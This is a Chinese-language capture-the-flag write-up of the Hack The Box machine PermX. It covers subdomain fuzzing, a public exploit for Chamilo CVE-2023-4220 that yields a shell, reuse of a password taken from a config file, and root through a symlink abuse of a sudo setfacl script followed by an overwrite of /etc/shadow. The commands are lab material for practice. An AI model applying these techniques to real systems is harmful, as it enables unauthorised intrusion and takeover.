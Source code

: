 ```yaml
---
title: Hack The Box PermX
description: Hack The Box PermX 靶机 WP
pubDate: 09 24 2024
image: https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-2.png
categories:
  - 网络安全
tags:
  - 靶场
  - Hack The Box靶场
  - 渗透测试
---
```


Hack The Box PermX 靶机

靶机 IP：10.10.11.23

## Web 渗透

放 Goby 里扫

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-3.png)

发现 80 端口开启，访问 Web 页面

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-1.png)

跳转至 `permx.htb`，添加至 Hosts

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-2.png)

没啥东西，fuzz 子域名

```shell
.\wfuzz.bat -c -w "E:\Crack\Red_Team\Dict\SecLists\Discovery\DNS\subdomains-top1million-5000.txt" -u "http://permx.htb/" -H "Host: FUZZ.permx.htb" --hl 9
```

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-4.png)

得到子域名 `lms.permx.htb`，添加到 hosts

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-5.png)

查找默认密码

没找到。弱口令试试，`admin/admin`

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-6.png)

跳转到这里，可能有SQL 注入？

没成功，找一下其他 nday

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-7.png)

发现一个 RCE

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-8.png)

需要管理账号密码，没用。接着找

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-9.png)

找到另一个 RCE

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-10.png)

失败。目录扫描试试

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-11.png)

发现个 `web` 目录

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-12.png)

没用，看看 `robots`

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-13.png)

发现一个文档

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-14.png)

当前版本是 1.11。接着找 nday

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-16.png)

这里倒是一堆，挨个试吧

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-15.png)

CVE-2023-4220 这个洞，确实找到了一个 `bigUpload.php`

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-17.png)

不过看不了源码，用他给的 exp 上 shell

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-18.png)

用 nc 接一下

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-19.png)

## 内网渗透

找 flag

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-20.png)

没有，找 home 下的用户

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-21.png)

有一个 `mtz` 用户，找一下网站配置文件

在 `/var/www/chamilo/app/config/configuration.php` 找到如下内容

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-22.png)

得到 `chamilo/03F6lY3uXAP2bkW8`，试着登录一下 `mtz/03F6lY3uXAP2bkW8`

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-23.png)

ok，登录进来了，得到 flag

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-24.png)

上几个工具，全都用不了

常规看一下

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-25.png)

`/opt/acl.sh` 可访问

```shell
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* ); then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

脚本功能是在 `/home/mtz/` 下改权限。看一下 `/home/mtz` 下的权限

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-26.png)

哎？可以用软链接

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-27.png)

我们现在可以修改一个文件，那就修改 shadow 呗，重新生成一个密码

```shell
sudo /opt/acl.sh mtz rwx /home/mtz/root/etc/shadow
```

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-28.png)

然后用 `openssl` 重新生成一个密码

```shell
openssl passwd -6 Admin
```

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-29.png)

得到

```shell
$6$sqEazCoH043.7zJA$TWQBv0Zo.K8uhq5zPJuj7cmQjP491KmeR.7zoZK9K4w49RM3E4Xat9MZelXHPZnGs6w40bvj2zDWOoNHAsvBJ0
```

然后 echo 覆写一下，即可登录 root

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-30.png)

拿到 flag

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-31.png)
